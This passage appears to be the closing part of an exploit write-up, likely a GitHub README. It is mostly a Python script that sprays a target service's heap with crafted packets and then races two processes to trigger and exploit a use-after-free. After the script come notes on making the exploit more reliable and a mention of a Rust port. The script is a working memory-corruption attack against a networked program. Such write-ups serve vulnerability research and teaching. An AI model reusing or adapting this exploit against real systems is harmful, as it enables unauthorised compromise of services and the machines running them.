 ```python
            with socket.socket(socket.AF_INET,socket.SOCK_STREAM) as s:
                s.connect((HOST,PORT))
                s.sendall(b"\x00\x00\x27\x11\x00\x00\x00\xf8"+payload)

def trigger_uaf():
    while True:
        with socket.socket(socket.AF_INET,socket.SOCK_STREAM) as s:
            s.connect((HOST,PORT))
            s.send(b"\x00\x00\x27\x1c\x00\x00\x00\x04AAAA")
            print(".")
            time.sleep(0.5)

def race_uaf():
    while True:
        with socket.socket(socket.AF_INET,socket.SOCK_STREAM) as s:
            s.connect((HOST,PORT))
            s.send(b"\x00\x00\x27\x11\x00\x00\x00\x28"+heap_addr+b"\x00"*0x20)

def main():
    heap_spray()
    input("Press enter to race")
    print("Vroooom")
    p = Process(target=race_uaf)
    p2 = Process(target=trigger_uaf)
    p.start()
    time.sleep(5)
    p2.start()
    p.join()
    p2.join()

if __name__ == "__main__":
    main()
```

### Improvements
Some stuff that I left out and it would be nice to add:
- **UAF race stability**: the racing of the UAF to overwrite the used object is not reliable and the exploit crashes sometimes.
- **Process continuation**: simply use the saved stack to repair the changes and also stop triggering the UAF in a loop.
- **Adjust heap spray**: the exploit spends a couple of seconds spraying the heap, with a bit more analysis we could reduce the number of sent packets and time spent. 

## Extras

Since I liked the script created by `@primal0xF7` and I needed an excuse to write some Rust, I reimplemented it with some extra features.

- Multithreading
- Detects endianness and address size from the provided executable
- Uses the image base of the executable
